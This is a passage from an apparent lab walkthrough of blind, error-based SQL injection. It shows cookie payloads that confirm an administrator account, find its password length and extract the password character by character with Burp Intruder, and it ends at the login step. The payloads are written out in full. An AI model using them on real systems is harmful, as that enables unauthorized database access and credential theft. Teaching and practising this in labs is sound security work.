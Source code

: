 ### 💡 Result:
- Error occurred → `administrator` user **exists** ✅

This way, the error only triggers **if the WHERE condition matches**.

## 4️⃣ **Determine Password Length**

Now find out how long the password is.

### 📥 Payload:
```http
Cookie: TrackingId='+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)=20)+||'--
```

🔁 Use **Burp Intruder** to vary the value of `LENGTH(password)` from `1` to `30`.

### 💡 Result:
- When `LENGTH(password)=20` → Error occurs ✅  
➡️ The password has **20 characters**

## 5️⃣ **Extract Password Character by Character**

Now we extract each character using `SUBSTR()` and induce errors when the guessed character matches.

### 📥 Payload:
```http
Cookie: TrackingId='+||+(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')+||'--
```

🔁 Use **Burp Intruder**:
- Target position: `'a'`
- Attack type: **Cluster bomb**
- Payload set: All possible characters (`a-z`, `A-Z`, `0-9`, etc.)

Repeat for positions `1` through `20`.

## 6️⃣ **Reconstructed Password**

After running Burp Intruder for all 20 positions:

### 🔐 Final Password:
```plaintext
1y1vysmt4233aiwpt6xw
```

Each character was confirmed by triggering an error only when the guessed value matched the real one.

## 7️⃣ **Log In as Administrator**
